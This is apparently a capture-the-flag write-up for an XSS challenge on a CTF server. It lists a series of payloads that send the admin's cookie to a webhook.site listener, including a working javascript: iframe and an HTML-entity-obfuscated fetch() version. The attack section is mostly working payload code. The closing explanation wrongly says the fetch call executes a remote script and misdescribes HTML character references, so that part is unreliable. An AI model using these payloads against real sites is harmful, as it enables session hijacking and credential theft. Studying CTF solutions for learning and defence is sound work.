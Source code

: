 # xss
https://webhook.site/2170c7c8-949c-41d1-8479-5d10a976084e
1. pressing the send button sends a post request to api.php
```html
http://ctf.adl.tw:12005/api.php?method=send
```
2. objective is to get the cookie on the server
3. iframe causes admin to send a http request to a remote link.
4. We set up a remote listener to handle http requests. We can use this [site](https://webhook.site/?fbclid=IwAR0PzMsA8CMTLpCQfhtUV38Qbh5oS-bPvotRPBz9tJCoEjsDi5j-_qM2lok#!/15777b00-a93c-4ce3-a75e-5f8afc14e2a9/26af9310-e1a9-476a-9f80-ae7d80c3823f/1).

(We may also use csp bypass.)
# payloads tried
- v1 didn't work
```html
<b onMouseOver="self.location.href='https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44'+escape(document.cookie)">test</b>
```
- v2 (can't use onload)
```html
<iframe onload="self.location.href='https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44'+escape(document.cookie)">test</iframe>
```
- v3 (can't use +)
```html
<iframe onMouseOver="self.location.href='https://webhook.site/8e1bdfcd-374a-429f-a697-f18406382d44'+escape(document.cookie)">test</iframe>
```
Turns we cannot use +
- test
```html
"/> <script>alert(0)</script> <!--
```
- v5 worked
```html
<iframe src=javascript:document.location='https://webhook.site/5b057c82-404d-4e23-a94a-c0f5d17d9259/?flag='.concat(document.cookie)>
```
- v6 also worked, generated by ./generate_payload.py
```html
<iframe src=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#102;&#101;&#116;&#99;&#104;&#40;&#39;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#119;&#101;&#98;&#104;&#111;&#111;&#107;&#46;&#115;&#105;&#116;&#101;&#47;&#50;&#49;&#55;&#48;&#99;&#55;&#99;&#56;&#45;&#57;&#52;&#57;&#99;&#45;&#52;&#49;&#100;&#49;&#45;&#56;&#52;&#55;&#57;&#45;&#53;&#100;&#49;&#48;&#97;&#57;&#55;&#54;&#48;&#56;&#52;&#101;&#63;&#102;&#108;&#97;&#103;&#61;&#39;&#43;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41;&#46;&#116;&#104;&#101;&#110;&#40;&#40;&#114;&#101;&#115;&#112;&#111;&#110;&#115;&#101;&#41;&#32;&#61;&#62;&#32;&#123;&#114;&#101;&#116;&#117;&#114;&#110;&#32;&#114;&#101;&#115;&#112;&#111;&#110;&#115;&#101;&#46;&#106;&#115;&#111;&#110;&#40;&#41;&#59;&#125;&#41;&#46;&#99;&#97;&#116;&#99;&#104;&#40;&#40;&#101;&#114;&#114;&#111;&#114;&#41;&#32;&#61;&#62;&#32;&#123;&#99;&#111;&#110;&#115;&#111;&#108;&#101;&#46;&#108;&#111;&#103;&#40;&#39;&#110;&#111;&#39;&#41;&#59;&#125;&#41><iframe>
```
The iframe element in this code is being used to load a script from a remote URL using the src attribute.  

The URL is encoded using HTML character references, which are used to represent characters that are not part of the standard ASCII character set. For example, &#106; represents the letter "j", &#97; represents the letter "a", and so on.   

When the HTML code is parsed by a web browser, these character references are converted back into their corresponding characters, so the src attribute in this iframe element would be interpreted as a URL that begins with "javascript:fetch(...".  

The iframe element also contains a script that uses the fetch() function to retrieve data from the specified URL and then execute it as a JavaScript script. This can be a security risk, as it allows the script to potentially access and manipulate the current document and any data it contains. It's generally a good idea to avoid executing arbitrary scripts from untrusted sources in this way.